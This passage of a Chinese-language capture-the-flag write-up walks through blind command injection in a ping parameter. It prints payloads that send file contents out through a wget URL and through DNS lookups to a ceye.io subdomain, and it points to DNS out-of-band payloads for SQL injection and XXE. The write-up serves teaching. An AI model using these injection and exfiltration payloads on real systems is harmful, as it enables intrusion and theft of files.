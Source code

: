 where_is_flag.php我们需要用命令执行才能看了。


## 0x02 

尝试使用`http://114.55.36.69:8015/?ping=127.0.0.1`，发现网站未响应，这是因为后台正在循环ping，说明了命令执行成功。

接着尝试使用`http://114.55.36.69:8015/?ping=-c 1 127.0.0.1`，可以发现网站网站后台并没有回显ping的结果，这说明虽然网站执行了命令，但是并不返回命令执行结果。

那么如何拿到命令执行结果呢？第一个想到的是使用http请求，比如说`wget www.mysite.com/$(cat flag.php)`，但是尝试后发现无效，这可能是服务器并没有wget命令。

正解是使用dns解析获取带外数据，这里推荐一个平台：[http://ceye.io](http://ceye.io)，登录之后可以获得一个专属的地址（假设为qwerty.ceye.io），那么如果我们<code>ping  &#96;whoami&#96;.qwerty.ceye.io</code>，由于ping的第一步是dns解析，所以在[http://ceye.io/records/dns](http://ceye.io/records/dns)就可以看whoami命令执行的结果：

![1537793445399](writeup.assets/1537793445399.png)

根据上述原理，我们可以获取where_is_flag.php，但是如果文件内容中有空格，我们的ping命令就不能执行了，所以用sed命令将空格换成sspacee。这样我们ping参数为：
<code>http://114.55.36.69:8015/?ping= &#96;cat where_is_flag.php|sed 's/\s/sspacee/g'&#96;.0ri9zr.ceye.io</code>

同时在ceye中可以看到文件内容了

![1537792741495](writeup.assets/1537792741495.png)

接着访问dgfsdunsadkjgdgdfhdfhfgdhsadf/flag.php，如法炮制即可：

<code>http://114.55.36.69:8015/?ping= &#96;cat dgfsdunsadkjgdgdfhdfhfgdhsadf/flag.php|sed 's/\s/sspacee/g'&#96;.0ri9zr.ceye.io</code>

可以看到flag：

![1537793298457](writeup.assets/1537793298457.png)

**拓展：** 不止是命令执行，dns的带外数据还能传很多东西比如说SQL注入、XXE，详细可以看[http://ceye.io/payloads](http://ceye.io/payloads)，Github上也有了利用该方法进行SQL注入的工具（[https://github.com/ADOOO/DnslogSqlinj](https://github.com/ADOOO/DnslogSqlinj))
